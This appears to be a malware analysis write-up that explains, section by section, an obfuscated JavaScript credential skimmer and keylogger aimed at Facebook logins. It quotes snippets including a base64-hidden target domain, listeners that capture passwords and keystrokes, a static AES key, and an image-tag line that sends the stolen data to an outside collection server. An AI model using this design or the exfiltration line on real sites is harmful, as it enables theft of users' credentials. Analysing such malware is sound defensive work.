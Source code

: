 #### 2. **Helper Functions**
```js
var _0xabc1 = function(_0x321a) {
    return _0x321a;
};
var _0x5eaf = function(_0x5fa1) {
    return btoa(_0x5fa1);
};
```
- `_0xabc1` is a no-op function, returning its input unchanged.
- `_0x5eaf` base64-encodes its input, though it's unused in this snippet.

#### 3. **Target Domain Check**
```js
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
- The value `'d3d3LmZhY2Vib29rLmNvbQ=='` is base64 for `"www.facebook.com"`.
- The script only activates if the current page’s domain matches that target.

#### 4. **Form Submission Listener**
```js
document.addEventListener('submit', function(event) { ... });
```
- When a form is submitted, it intercepts the event.
- It attempts to extract `username` or `email`, and `password` from the form data.
- If found, it sends the credentials using `exfiltrateCredentials()`.

#### 5. **Keystroke Logging**
```js
document.addEventListener('keydown', function(event) { ... });
```
- Every key the user presses is captured and sent using `exfiltrateData()`.

#### 6. **Exfiltration Functions**
##### a. `exfiltrateCredentials(username, password)`
- Packages the data into an object along with the current site.
- Encrypts it using AES before sending it.

##### b. `exfiltrateData(type, data)`
- Similar to the credentials function but used for logging general keystrokes.

##### c. `encryptPayload(data)`
```js
const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
```
- Uses AES encryption with a static key (`"SuperSecretKey123"`).
- Generates a random IV for each payload.
- Concatenates IV and ciphertext, then encodes in Base64.

##### d. `sendToServer(encryptedData)`
```js
img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
```
- Uses an `<img>` tag to send the data to a remote server (a common trick to bypass CORS restrictions).
- The encrypted payload is passed as a query parameter.

---